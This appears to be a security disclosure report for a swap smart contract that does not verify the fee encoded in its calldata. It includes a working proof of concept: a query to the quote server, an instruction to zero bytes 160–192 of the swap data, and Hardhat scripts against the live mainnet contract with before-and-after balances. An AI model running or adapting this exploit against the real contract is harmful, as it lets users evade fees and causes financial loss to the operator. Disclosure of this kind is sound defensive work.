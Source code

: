 # Risk rating

Critical

# Title

Missing proper access control about the swap fee collected by WalletM.

# Links to affected code

https://etherscan.io/address/0x881d40237659c251811cec9c364ef91dc08d300c#code;

# Vulnerability details

WalletM allows users to exchange their tokens instantly. Through local network capture, we identify one of the relative Ethereum smart contracts (i.e., [MetaSwap](https://etherscan.io/address/0x881d40237659c251811cec9c364ef91dc08d300c#code)). However, there exists a server inconsistency between the access control of the frond-end website and the smart contract, which can be leveraged by every user to bypass the swap fee collected by WalletM.

More specifically, the front-end website inquiries [a self-host server](https://swap.metaswap.codefi.network/networks/1/trades) to obtain possible transactions for a specific token exchange. In each transaction, WalletM collects transaction fees for offering the best exchange price. Such a price is pre-defined by the front-end website and is 0.875% maximum. However, the smart contract (i.e., [MetaSwap](https://etherscan.io/address/0x881d40237659c251811cec9c364ef91dc08d300c#code)) does not check the correctness of the swap fee.

By direct inquiries to the server, users are capable to obtain all possible transactions. Then, by slightly manipulating the transaction, any users can bypass the swap fee collected by WalletM.

## Impact

Any user can bypass the swap fee collection specific by WalletM front-end, which may result in 10k+ loss of WalletM daily.

Although this vulnerability only causes a loss of <1% for each transaction. However, considering the high volume of WalletM's trading transactions, we consider this a critical vulnerability.

## Proof of Concept

Assuming Alice is going to exchange Eth for USDT, using WalletM chrome extension. Here's how Alice attack:
+ Alice inquiries the server hosted by WalletM through the following script, and obtain all possible transactions.
```
const tradeData = await fetch('https://swap.metaswap.codefi.network/networks/1/trades?destinationToken=0x0000000000000000000000000000000000000000&sourceToken=0xdac17f958d2ee523a2206206994597c13d831ec7&sourceAmount=50000000&slippage=2&timeout=10000&walletAddress=0x67be1dd67339d080f9d4ca1976fb0fc69ca6238a')
    .then(response => response.json())
    .then(data => {return data})
```
+ Alice chooses the transaction with the best price.
+ Alice set the 160th byte to the 192nd byte of the input parameter `MetaSwap:swap:bytes calldata data` in the transaction to be zero
+ Alice gets a transaction with zero swap fee.

In the following scripts, we show the normal scenario when a user is using MetaSwap to swap ETH to USDT, with a transaction generated by the WalletM front-end website. Note that, the user should have at least 0.03ETH + Gas Fee.

```
const hre = require("hardhat");
require('dotenv').config();

async function main() {
  const MetaSwapFactory = await hre.ethers.getContractFactory("MetaSwap");
  const MetaSwap = MetaSwapFactory.attach("0x881d40237659c251811cec9c364ef91dc08d300c");
  const USDT = await hre.ethers.getContractAt("ERC20", "0xdAC17F958D2ee523a2206206994597C13D831ec7");

  console.log("MetaSwap deployed on:", await MetaSwap.getAddress());
  console.log("Current block number: ", await hre.ethers.provider.getBlockNumber());
  let attacker = new hre.ethers.Wallet(process.env.PRIVATE_KEY, hre.ethers.provider);
  console.log("attacker's address:      ", attacker.address);  

  console.log("======Before Swap======")
  console.log("attacker's ETH balance:  ", await hre.ethers.provider.getBalance(attacker.address));
  console.log("attacker's USDT balance: ", await USDT.balanceOf(attacker.address));


  let id = "pmmFeeDynamicv4";
  let tokenFrom = "0x0000000000000000000000000000000000000000";
  let amount = "30000000000000000";
  let swapData = "\
0x0000000000000000000000000000000000000000000000000000000000000000\
000000000000000000000000dac17f958d2ee523a2206206994597c13d831ec7\
0000000000000000000000000000000000000000000000000069b703ea66a800\
000000000000000000000000000000000000000000000000000000000374c7a1\
0000000000000000000000000000000000000000000000000000000000000120\
\
0000000000000000000000000000000000000000000000000000ddd364dc5800\
\
000000000000000000000000f326e4de8f66a0bdc0970b79e0924e33c79f1915\
0000000000000000000000000000000000000000000000000000000000000000\
00000000000000000000000000000000000000000000000000000000000001e0\
000000000000000000000000dac17f958d2ee523a2206206994597c13d831ec7\
000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2\
000000000000000000000000000000000000000000000000000000000386d627\
0000000000000000000000000000000000000000000000000069b703ea66a800\
000000000000000000000000a69babef1ca67a37ffaf7a485dfff3382056e78c\
00000000000000000000000074de5d4fcbf63e00296fd95d33236b9794016631\
00000000000000000000000067be1dd67339d080f9d4ca1976fb0fc69ca6238a\
0000000000000000000000000000000000000000000000000000000000000000\
0000000000000000000000000000000000000000000000000000000064b12bc5\
01ffffffffffffffffffffffffffffffffffffff0ef5cf1364b12b2f00000033\
0000000000000000000000000000000000000000000000000000000000000003\
000000000000000000000000000000000000000000000000000000000000001c\
13469a2bda28e2628f4b25e047abcc27c28b3de9cca92aa79a87e381c7fa2847\
7d4a49b760817460a04baebc3066e5ec579eff7dabf72bb3bbb3e5e434bd80e5\
0000000000000000000000000000000000000000000000000069b703ea66a800";
  
  await MetaSwap.connect(attacker).swap(id, tokenFrom, amount, swapData, {value: "30000000000000000"});

  console.log("=======After Swap======")
  console.log("attacker's ETH balance:  ", await hre.ethers.provider.getBalance(attacker.address));
  console.log("attacker's USDT balance: ", await USDT.balanceOf(attacker.address));
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```

And we get the following result:

```
MetaSwap deployed on: 0x881d40237659c251811cec9c364ef91dc08d300c
Current block number:  17691275
attacker's address:       0x67be1Dd67339D080f9D4CA1976fB0fc69Ca6238A
======Before Swap======
attacker's ETH balance:   64647206303712239n
attacker's USDT balance:  0n
=======After Swap======
attacker's ETH balance:   30850855827390127n
attacker's USDT balance:  59168295n
```

However, in the following script, the attacker manipulates the swap fee to zero by letting the 160th byte to the 192nd byte be zero.

```
const hre = require("hardhat");
require('dotenv').config();

async function main() {
  const MetaSwapFactory = await hre.ethers.getContractFactory("MetaSwap");
  const MetaSwap = MetaSwapFactory.attach("0x881d40237659c251811cec9c364ef91dc08d300c");
  const USDT = await hre.ethers.getContractAt("ERC20", "0xdAC17F958D2ee523a2206206994597C13D831ec7");

  console.log("MetaSwap deployed on:", await MetaSwap.getAddress());
  console.log("Current block number: ", await hre.ethers.provider.getBlockNumber());
  let attacker = new hre.ethers.Wallet(process.env.PRIVATE_KEY, hre.ethers.provider);
  console.log("attacker's address:      ", attacker.address);  

  console.log("======Before Swap======")
  console.log("attacker's ETH balance:  ", await hre.ethers.provider.getBalance(attacker.address));
  console.log("attacker's USDT balance: ", await USDT.balanceOf(attacker.address));


  let id = "pmmFeeDynamicv4";
  let tokenFrom = "0x0000000000000000000000000000000000000000";
  let amount = "30000000000000000";
  let swapData = "\
0x0000000000000000000000000000000000000000000000000000000000000000\
000000000000000000000000dac17f958d2ee523a2206206994597c13d831ec7\
0000000000000000000000000000000000000000000000000069b703ea66a800\
000000000000000000000000000000000000000000000000000000000374c7a1\
0000000000000000000000000000000000000000000000000000000000000120\
\
0000000000000000000000000000000000000000000000000000000000000000\
\
000000000000000000000000f326e4de8f66a0bdc0970b79e0924e33c79f1915\
0000000000000000000000000000000000000000000000000000000000000000\
00000000000000000000000000000000000000000000000000000000000001e0\
000000000000000000000000dac17f958d2ee523a2206206994597c13d831ec7\
000000000000000000000000c02aaa39b223fe8d0a0e5c4f27ead9083c756cc2\
000000000000000000000000000000000000000000000000000000000386d627\
0000000000000000000000000000000000000000000000000069b703ea66a800\
000000000000000000000000a69babef1ca67a37ffaf7a485dfff3382056e78c\
00000000000000000000000074de5d4fcbf63e00296fd95d33236b9794016631\
00000000000000000000000067be1dd67339d080f9d4ca1976fb0fc69ca6238a\
0000000000000000000000000000000000000000000000000000000000000000\
0000000000000000000000000000000000000000000000000000000064b12bc5\
01ffffffffffffffffffffffffffffffffffffff0ef5cf1364b12b2f00000033\
0000000000000000000000000000000000000000000000000000000000000003\
000000000000000000000000000000000000000000000000000000000000001c\
13469a2bda28e2628f4b25e047abcc27c28b3de9cca92aa79a87e381c7fa2847\
7d4a49b760817460a04baebc3066e5ec579eff7dabf72bb3bbb3e5e434bd80e5\
0000000000000000000000000000000000000000000000000069b703ea66a800";
  
  await MetaSwap.connect(attacker).swap(id, tokenFrom, amount, swapData, {value: "30000000000000000"});

  console.log("=======After Swap======")
  console.log("attacker's ETH balance:  ", await hre.ethers.provider.getBalance(attacker.address));
  console.log("attacker's USDT balance: ", await USDT.balanceOf(attacker.address));
}

main().catch((error) => {
  console.error(error);
  process.exitCode = 1;
});
```

The following result shows that we successfully attack (i.e., getting the same amount of USDT with less ETH by bypassing fee collection):

```
MetaSwap deployed on: 0x881d40237659c251811cec9c364ef91dc08d300c
Current block number:  17691275
attacker's address:       0x67be1Dd67339D080f9D4CA1976fB0fc69Ca6238A
======Before Swap======
attacker's ETH balance:   64647206303712239n
attacker's USDT balance:  0n
=======After Swap======
attacker's ETH balance:   31248154009945663n
attacker's USDT balance:  59168295n
```

## Recommended Mitigation Steps

+ Adding an additional access control.